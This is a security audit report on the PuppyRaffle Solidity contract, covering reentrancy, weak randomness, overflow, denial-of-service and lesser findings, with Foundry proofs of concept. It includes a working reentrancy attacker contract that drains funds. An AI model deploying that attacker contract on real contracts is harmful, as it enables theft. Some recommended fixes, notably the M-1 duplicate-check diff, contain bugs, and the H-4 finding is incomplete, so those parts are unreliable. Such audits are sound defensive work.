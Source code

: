 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.svg" alt="Logo">
    <div>
    <h1>Puppy Raffle Protocol Audit Report</h1>
    <h3>Prepared by: Prince Allwin</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->



# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.](#h-1-reentrancy-attack-in-puppyrafflerefund-allows-entrant-to-drain-raffle-balance)
    - [\[H-2\] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner.](#h-2-weak-randomness-in-puppyraffleselectwinner-allows-anyone-to-choose-winner)
    - [\[H-3\] Integer overflow of `PuppyRaffle::totalFees` loses fees](#h-3-integer-overflow-of-puppyraffletotalfees-loses-fees)
    - [\[H-4\] Malicious winner can forever halt the raffle](#h-4-malicious-winner-can-forever-halt-the-raffle)
  - [Medium](#medium)
    - [\[M-1\] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service(DOS) attack, incrementing gas costs for future entrants.](#m-1-looping-through-players-array-to-check-for-duplicates-in-puppyraffleenterraffle-is-a-potential-denial-of-servicedos-attack-incrementing-gas-costs-for-future-entrants)
    - [\[M-2\] Unsafe cast of `PuppyRaffle::fee` loses fees](#m-2-unsafe-cast-of-puppyrafflefee-loses-fees)
    - [\[M-3\] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest](#m-3-smart-contract-wallet-raffle-winners-without-a-receive-or-a-fallback-will-block-the-start-of-a-new-contest)
  - [Low](#low)
    - [\[L-1\] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.](#l-1-puppyrafflegetactiveplayerindex-returns-0-for-non-existent-players-and-for-players-at-index-0-causing-a-player-at-index-0-to-incorrectly-think-they-have-not-entered-the-raffle)
  - [Gas](#gas)
    - [\[G-1\] Unchanged state variable should be declared constant or immutable.](#g-1-unchanged-state-variable-should-be-declared-constant-or-immutable)
    - [\[G-2\] Storage variables in a loop should be cached.](#g-2-storage-variables-in-a-loop-should-be-cached)
  - [Informational](#informational)
    - [\[I-1\] Solidity pragma should be specific, not wide](#i-1-solidity-pragma-should-be-specific-not-wide)
    - [\[I-2\] Using an outdated version of solidity is not recommended.](#i-2-using-an-outdated-version-of-solidity-is-not-recommended)
    - [\[I-3\] Missing checks for `address(0)` when assigning values to address state variables](#i-3-missing-checks-for-address0-when-assigning-values-to-address-state-variables)
    - [\[I-4\] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice.](#i-4-puppyraffleselectwinner-does-not-follow-cei-which-is-not-a-best-practice)
    - [\[I-5\] Use of "magic" numbers is discouraged](#i-5-use-of-magic-numbers-is-discouraged)

# Protocol Summary
Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

# Disclaimer

Prince Allwin and team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

Commit Hash:
```
22bbbb2c47f3f2b78c1b134590baf41383fd354f
```

## Scope 

./src/
-- PuppyRaffle.sol

## Roles
- Owner: The only one who can change the feeAddress, denominated by the _owner variable.
- Fee User: The user who takes a cut of raffle entrance fees. Denominated by the feeAddress variable.
- Raffle Entrant: Anyone who enters the raffle. Denominated by being in the players array.


# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 3                      |
| Low      | 1                      |
| Gas      | 2                      |
| Info     | 5                      |
| Total    | 15                     |


# Findings

## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call, we update the `PuppyRaffle::players`

```js
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle till the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stoken by the malicious participant.

**Proof of Concept:**

1. Users enters the raffle.
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`.
3. Attacker enters the raffle.
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

<details>
<summary>Poc</summary>

Place the following in `PuppyRaffleTest.t.sol`

```js
    function test_Reentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        uint256 raffleBalanceBefore = address(puppyRaffle).balance;

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);

        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackContractBalance = address(attackerContract).balance;

        vm.startPrank(attackUser);
        attackerContract.attack{value: entranceFee}();
        vm.stopPrank();
        // attacker has entered the raffle.

        uint256 endingAttackContractBalance = address(attackerContract).balance;
        uint256 raffleBalanceAfterAttack = address(puppyRaffle).balance;

        console.log("Starting attacker contract balance: ", startingAttackContractBalance);
        console.log("Starting Raffle Balance", raffleBalanceBefore);

        console.log("Ending attacker contract balance: ", endingAttackContractBalance);
        console.log("Raffle Balance After Attack", raffleBalanceAfterAttack);

        assertEq(endingAttackContractBalance, startingAttackContractBalance + 5 ether, "attackerContractBalance");
        assertEq(raffleBalanceAfterAttack, 0);
    }
```

And this contract as well

```js
	contract ReentrancyAttacker {
        PuppyRaffle private immutable i_victimContract;
        uint256 private immutable i_entranceFee;
        uint256 private s_attackerIndex;

        constructor(PuppyRaffle victimContract) {
            i_victimContract = PuppyRaffle(victimContract);
            i_entranceFee = victimContract.entranceFee();
        }

        function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            i_victimContract.enterRaffle{value: i_entranceFee}(players);

            s_attackerIndex = i_victimContract.getActivePlayerIndex(address(this));
            i_victimContract.refund(s_attackerIndex);
        }

        function _stealMoney() internal {
            if (address(i_victimContract).balance > 0) {
                i_victimContract.refund(s_attackerIndex);
            }
        }

        receive() external payable {
            _stealMoney();
        }

        fallback() external payable {
            _stealMoney();
        }
    }
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

- By following the above steps we are statisfying CEI.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

       	payable(msg.sender).sendValue(entranceFee);

-		players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

- Also, Reentrancy Guard from [Openzeppelin](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) can be used.


### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows anyone to choose winner.

**Description:** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable final number. A predictable random number is not a good random number. Malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

**Note:** This additional means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless of it becomes a gas war as to who wins the raffles.

**Proof of Concept:**

There are few attack vectors here.

1. Validators can know ahead of time the `block.timestamp` and 	`block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty` was recently replaced with prevrandao.
2. User can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner!
   
Using on-chain values as a randomness seed is a [well-known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using an oracle for your randomness like [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction).

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees

**Description:** In solidity versions prior to `0.8.0` integers were subject to integer overflows.

```js
    uint64 myVar = type(uint64).max
    // 18446744073709551615

    myVar = myVar + 1
    // myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in  `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

1. We conclude a raffle of 4 players
2. We then have 89 players enter a new raffle, and conclude the raffle.
3. `totalFees` will be:
```js
totalFees = totalFees + uint64(fee);
//aka
totalFees = 800000000000000000 + 1780000000000000000
// and this will overflow
totalFees = 153255926290448384 // this is not the right value
```
4. You will be not able to withdraw, due to the line in `PuppyRaffle::withdrawFees`:
```js
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfDestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point, there will be too much `balance` in the contract that the above `require` will be impossible to hit.

<details>
<summary>Code</summary>

```js
    function test_TotalFeesOverflow() public playersEntered {
        // we finish a raffle of 4 to collect some fees

        // simulate raffle duration is over
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 20% of entranceFee
        // 4 players has entered 4 * 1e18 = 4e18
        // 20% of 4e18 = 0.8e18

        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);

        // simulate raffle duration is over
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        puppyRaffle.selectWinner();
        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending Total Fees", endingTotalFees);
        assertLt(endingTotalFees, startingTotalFees);

        // we are also unable to withdraw any fees because of the require check
        vm.startPrank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }
```
</details>

**Recommended Mitigation:** There are a few possible mitigations.

1. Use a newer version of Solidity that does not allow integer overflows by default.
```diff
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```
Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's SafeMath to prevent integer overflows.
2. Use a uint256 instead of a uint64 for totalFees.
```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```
3. Remove the balance check from `PuppyRaffle::withdrawFees`
```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

We additionally want to bring your attention to another attack vector as a result of this line in a future finding.

### [H-4] Malicious winner can forever halt the raffle

**Description:** Once the winner is chosen, the selectWinner function sends the prize to the the corresponding address with an external call to the winner account.

```js
(bool success,) = winner.call{value: prizePool}("");
require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

## Medium

### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service(DOS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower than those who enter later. Every additional address in the `players` array, is an additional check the loop will have to make.

```js
// @audit Dos Attack
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas cost for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big, that no else enters, guaranteeing themselves the win.

**Proof of Concept:**

If we have 2 set of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6252039 gas 
- 2nd 100 players: ~18068130 gas

This is more than 3x more expensive for the seconds 100 players.

<details>
<summary>Poc</summary>
Place the following test into `PuppyRaffleTest.t.sol`

```js
    function test_denialOfService() public {
        vm.txGasPrice(1);

        // let's enter 100 players
        uint256 playersNum = 100;
        address[] memory players = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }

        uint256 gasStartFirst = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        uint256 gasEndFirst = gasleft();
        uint256 gasUsedFirst = (gasStartFirst - gasEndFirst) * tx.gasprice;

        console.log("Gas Cost for the first %s players ->", playersNum, gasUsedFirst);

        // now for the 2nd 100 players
        address[] memory playersTwo = new address[](playersNum);
        for (uint160 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }

        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;

        console.log("Gas Cost for the second %s players ->", playersNum, gasUsedSecond);

        assertLt(gasUsedFirst, gasUsedSecond);

        // Logs:
        //     Gas Cost for the first 100 players -> 6252039
        //     Gas Cost for the second 100 players -> 18068130
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check dosen't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.


```diff
+   mapping(address => uint256) public s_addressToRaffleId;
+   uint256 public raffleId = 0;
.
.
.
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates only from the new players
+           require(s_addressToRaffleId[i] != raffleId, "PuppyRaffle: Duplicate player");
            players.push(newPlayers[i]);
            addressToRaffleId[newPlayers[i]] = raffleId;
        }

-       // check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
    }

    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
    }
```

### [M-2] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:** In `PuppyRaffle::selectWinner` their is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated. 

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value. 

**Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. Their is a comment which says:

```javascript
// We do some storage packing to save gas
```
But the potential gas saved isn't worth it if we have to recast and this bug exists. 

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-3] Smart Contract wallet raffle winners without a `receive` or a `fallback` will block the start of a new contest

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallet that rejects payment, the lottery would not be able to restart. 

Non-smart contract wallet users could reenter, but it might cost them a lot of gas due to the duplicate check.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, and make it very difficult to reset the lottery, preventing a new one from starting. 

Also, true winners would not be able to get paid out, and someone else would win their money!

**Proof of Concept:** 
1. 10 smart contract wallets enter the lottery without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallet entrants (not recommended)
2. Create a mapping of addresses -> payout so winners can pull their funds out themselves, putting the owness on the winner to claim their prize. (Recommended)

## Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```js
@>	/// @return the index of the player in the array, if they are not active, it returns 0
	function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
@>      return 0;
    }
```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant.
2. `PuppyRaffle::getActivePlayerIndex` returns 0.
3. User thinks they have not entered correctly due to the function documentation.

**Recommended Mitigation:** The easiest recommendation would be to revert if the player is not in the array instead of returning 0.

You could also reserve the 0th position for any competition, but a better soultion might be to return an `int256` where the function returns `-1` if the player is not active.

## Gas

### [G-1] Unchanged state variable should be declared constant or immutable.

Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

Reading from storage is much more expensive than reading from a constant or immutable variable.

### [G-2] Storage variables in a loop should be cached.

Everytime you call `players.length` you read from storage, as opposed from memory which is more gas efficient.

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-       for (uint256 j = i + 1; j < players.length; j++) {
+       for (uint256 j = i + 1; j < playersLength; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

## Informational

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

### [I-2] Using an outdated version of solidity is not recommended.

**Description:** solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation:** Deploy with any of the following Solidity versions:

`0.8.18`
The recommendations take into account:
- Risks related to recent releases
- Risks of complex code generation changes
- Risks of new language features
- Risks of known bugs
- Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [Slither](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) documentation for more information.

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Assigning values to address state variables without checking for `address(0)`.

Instances:
`PuppyRaffle::feeAddress`

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice.

It's best to keep code clean and follow CEI (Checks, Effects, Interactions).

```diff
	function selectWinner() external {
		.
		.
		.
-		(bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+		(bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");
	}

```

### [I-5] Use of "magic" numbers is discouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the number are given a name.

Examples:

```js
	uint256 prizePool = (totalAmountCollected * 80) / 100;
    uint256 fee = (totalAmountCollected * 20) / 100;
```

Instead, you could use:

``` js
	uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
	uint256 public constant FEE_PERCENTAGE = 20;
	uint256 public constant POOL_PRECISION = 100;
```
